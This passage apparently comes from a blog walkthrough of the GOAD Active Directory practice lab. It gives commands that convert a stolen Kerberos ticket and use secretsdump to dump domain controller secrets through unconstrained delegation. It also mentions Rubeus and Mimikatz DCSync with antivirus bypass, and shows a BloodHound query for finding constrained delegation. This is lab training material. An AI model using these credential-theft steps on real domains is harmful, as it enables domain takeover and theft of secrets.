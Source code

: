 ```bash
cat tgt.b64|base64 -d > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache
export KRB5CCNAME=/workspace/unconstrained/ticket.ccache
secretsdump.py -k -no-pass SEVENKINGDOMS.LOCAL/'KINGSLANDING$'@KINGSLANDING
```

![deleg_unconcstrained_secrets_dump.png](/assets/blog/GOAD/deleg_unconcstrained_secrets_dump.png)

> Another way of exploitation, is to do a ptt with Rubeus and launch a dcsync with Mimikatz but this implies to run Mimikatz on Winterfell and bypass the defender AV

> Unless you didn't notice, the unconstrained delegation abuse was here exploited to pass from the child to the parent domain ;) 
{: .prompt-tip }

## Constrained Delegation

- Find constrained delegation with bloodhound :

```
MATCH p=(u)-[:AllowedToDelegate]->(c) RETURN p
```

![delegation_bh_constrain.png](/assets/blog/GOAD/delegation_bh_constrain.png)
